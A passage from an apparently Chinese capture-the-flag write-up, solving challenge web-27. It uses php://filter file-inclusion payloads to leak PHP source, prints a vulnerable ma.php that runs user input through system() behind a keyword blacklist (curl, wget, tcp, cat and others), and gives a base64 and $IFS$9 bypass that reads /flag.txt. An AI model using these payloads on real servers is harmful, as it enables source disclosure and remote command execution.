 
拼凑出来提交flag。

### web-27 想获取flag吗

提示给出来说要先获取源码，查看提示可以尝试包含ma.php。在index.php试了几个参数，发现file=可以包含。获取index.php和ma.php的源码。

```text
/?file=php://filter/convert.base64-encode/resource=ma.php
/?file=php://filter/convert.base64-encode/resource=index.php
```

这里重点看一下ma.php的源码，是一个绕过

```php
<?php
error_reporting(0);
function blacklist($cmd){
  $filter = "(\\<|\\>|php|curl| |0x|\\\\|python|gcc|less|root|etc|pass|http|ftp|cd|tcp|udp|cat|×|flag|ph|hp|wget|type|ty|\\$\\{IFS\\}|index|\\*)";
  if (preg_match("/".$filter."/is",$cmd)==1){  
      exit('Go out! This black page does not belong to you!');
  }
  else{
    system($cmd);
  }
}
blacklist($_GET['cmd']);
?>
```

看样子禁用了空格，一些基本的查看命令，尝试了几种方法，最后用base64编码+空格绕过的方式获取到的flag。

```text
/ma.php/?cmd=echo$IFS$9Y2F0IC9mbGFnLnR4dA==|base64$IFS$9-d|bash
```

空格使用 `$IFS$9` 绕过，命令编码base64，内容是 `cat /flag.txt`。

### web-28 神奇的魔方

开始给了个页面，是个魔方游戏。开始找页面源码的内容。
